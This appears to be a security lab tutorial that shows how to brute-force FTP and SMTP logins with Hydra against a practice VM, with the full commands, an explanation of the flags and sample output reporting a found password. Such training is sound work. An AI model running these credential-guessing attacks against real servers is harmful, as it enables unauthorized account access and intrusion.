 FTP

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

```
FTP

           
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x

        
```

-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.

ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

SMTP

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

```
SMTP

           
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found

        
```
